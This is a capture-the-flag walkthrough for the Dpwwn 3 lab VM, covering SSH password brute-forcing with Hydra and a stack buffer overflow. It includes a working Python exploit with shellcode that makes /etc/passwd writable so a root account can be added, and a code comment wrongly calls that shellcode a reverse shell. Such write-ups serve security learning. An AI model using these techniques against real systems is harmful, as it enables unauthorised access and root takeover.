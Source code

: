 # Dpwwn 3

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`

![](https://i.imgur.com/P8e8NGO.png)
Victim is `192.168.227.130`

`nmap -sS -sV -p- -oN NampDpwwnLv3.txt 192.168.227.130`
![](https://i.imgur.com/eANkNU6.png)

We got snmp and ssh here, there might be some AC/PW on snmp service.
`snmpwalk -v1 -c public 192.168.227.130`
![](https://i.imgur.com/pt33GcF.png)

Take a try with `Hydra`, before use it, unzip the wordlist.
`gzip -d /usr/share/wordlists/rockyou.txt.gz`
`hydra -s 22 -v -l john -P /usr/share/wordlists/rockyou.txt 192.168.227.130 ssh`
![](https://i.imgur.com/Inty1IW.png)
Then we got the password: `john`

So, use this to `ssh` to the target.
![](https://i.imgur.com/HWuiMIw.png)

There's message in john's folder.
![](https://i.imgur.com/FfQE03V.png)

However, these binary execute by john, that might not be a PoE entry.
So let's see `sudo -l` to find the privilege command we can use, the message owner might givve us some help.
![](https://i.imgur.com/Bhoov2r.png)
![](https://i.imgur.com/vUYzEXd.png)

Okay, the privilge command we can use is to exec the `ss.sh` at `/hoem`, let's see what's in `/home/ss.sh`.
![](https://i.imgur.com/CW8nWBH.png)

Then this means that this shell script will exec `./smashthestack`, and you can use root to exec thsi script also exec `./smashthestack` as root.
![](https://i.imgur.com/MLfCHor.png)

According there's only simple `gdb` and cannot install `peda`, `checksec`, we need more helpful environment to check this binary.
Then let's download the binary and pwn the port 3210 to finish this challenge.
![](https://i.imgur.com/StpngYb.png)
I try to use `pyhton -m SimpleHTTPServer`, but there's firewall block me to get the file.

So the dumb way is to Base64 the file back.
![](https://i.imgur.com/eYITCcB.png)
```
import base64

with open("smashthestack", "rb") as f:
    encodedfile = base64.b64encode(f.read())
    print(encodedfile)
```
![](https://i.imgur.com/qrlmWoa.png)
```
import base64
fh = open("smashthestack", "wb")
with open("b64smashthestack", "rb") as f:
    fh.write(base64.b64decode(f.read()))
    fh.close()
```
![](https://i.imgur.com/veMWOad.png)
According to binary is in 32bit, turn on compatible framework: `dpkg –add-architecture i386`, update and install the 32 bit libraries: `apt install libc6:i386`
Then use your reversing and debugging tool to find the vul.

`ps -al`
![](https://i.imgur.com/Zarn52a.png)
`grep -E "stack|heap" /proc/{processID}/maps`
![](https://i.imgur.com/iZVZV5W.png)
![](https://i.imgur.com/SfoagXM.png)
Now we know that stack can be executed, but ASLR will change the position of the stack.

According no gadgets we need, PIE might not be a problem, but ASLR still did, there's no way to leak the position.
![](https://i.imgur.com/e5Wl4Bo.png)

![](https://i.imgur.com/1relFqy.png)
`0xdd8` - `0xb00` = `0x2d8` = 728, to cover to return address, that might be 732.

However, cuz to ASLR, stack base will change, and there's no clue to get the address.

Using `ctrl+z`, `bg`, `fg {number}`, to let gdb attach on binary.
![](https://i.imgur.com/RSrkjiN.png)

`disass main`, `disass vulncode` to see what binary doing.
![](https://i.imgur.com/u7wtDa8.png)

It open a listener socket on 3210, and call vulncode, which might not be a standard c library.
![](https://i.imgur.com/30y0F0v.png)

`strcpy()` here is vulnerable cuz to no check with lengh.
![](https://i.imgur.com/tt7aADP.png)

Using `b vulncode` to let process stop at the point which you want.

Use another terminal to ssh to the target, also in `john`.
After sending payload to 3210, back to `gdb` one.

![](https://i.imgur.com/8mbWKVD.png)

That might show something that your payload is not fit to memory status.

![](https://i.imgur.com/NVHlhWr.png)

Use `x/300x $esp` to check the stack.

We see junk `A`: `0x41`, retaddress we predicted, `NOP`: `0x90` and shellcode.

Most important address is the section between return address to shellcode, `NOP` section. 

Our return address should point in this section or exploit might not work.

![](https://i.imgur.com/rAKnAEM.png)

As you see, `0xbfff580` is following with part of shellcode and `0x00`, these might not work.

![](https://i.imgur.com/Be5Tcs7.png)
Whole payload should not bigger than `0x400`(which being passed as premeter to `read()` in `main()`) which means 1024.

As I mentioned before, stack allocated in 732 bytes, according to `read()` function, there's only 1024 bytes, `NOP` & shellcode can only limited in 292 bytes.

After several test, I found my target machine local memory stack location after return address is `0xbffff500` with john.

As script execute binary, this address might be more higher, just brutalforce it and optimized `NOP` section, whenever return address hit on `NOP` section, `NOP` will be regarded as nothing and keep executing forward to get to the shellcode.

I use following payload as shellcode which will `chmod` the `/etc/passwd` for me to modified: http://shell-storm.org/shellcode/files/shellcode-812.php
```
import sys,socket

# Reverse shell for linux x86, lhost = 127.0.0.1, lport = 8000, encoding = x86/alpha_mixed, no conflictive characters
payload = ("\x31\xc0\x66\xb9\xb6\x01\x50\x68\x73\x73\x77\x64"
           "\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3"
           "\xb0\x0f\xcd\x80\x31\xc0\x50\x68\x61\x64\x6f\x77"
           "\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3"
           "\xb0\x0f\xcd\x80\x31\xc0\x40\xcd\x80"
)

ip_ = '127.0.0.1'
port_ = 3210

# First get the stack address with gdb ("\x00\xf5\xff\xbf")
# then add some more running as root from the SH script ("\x00~80\xf5\xff\xbf")
jmp_stack = "\x80\xf5\xff\xbf"

nop = '\x90'
buff = '\x41'*732+jmp_stack+nop*50+payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip_, port_))
s.send(buff)
s.close()
```

The return address should modified as address you overwrite after return address, it should locate in `NOP` section, then directly execute the shellcode.

So, your `NOP` section more bigger, shell code section more smaller, may help your trying to defeat the ASLR.

Now, let's generate the passwd to modified the `/etc/passwd`, cuz UID root cannot be empty password.

Use `openssl passwd -1`
![](https://i.imgur.com/Rz9zlbF.png)

Then add new use in the `/etc/passwd`
![](https://i.imgur.com/NDvNel3.png)

With `su - r00t` we can switch to new account which has root privilege.
![](https://i.imgur.com/7zsQ3a2.png)

Go to `/root` and `cat` the flag.
![](https://i.imgur.com/ig7vFGO.png)

Actually, as I login as `r00t`, which is root privilege, `NOP` section in stack change because to ASLR.(I rebooted the machine)
![](https://i.imgur.com/goJNzeS.png)

Keep trying with optimized `NOP` section.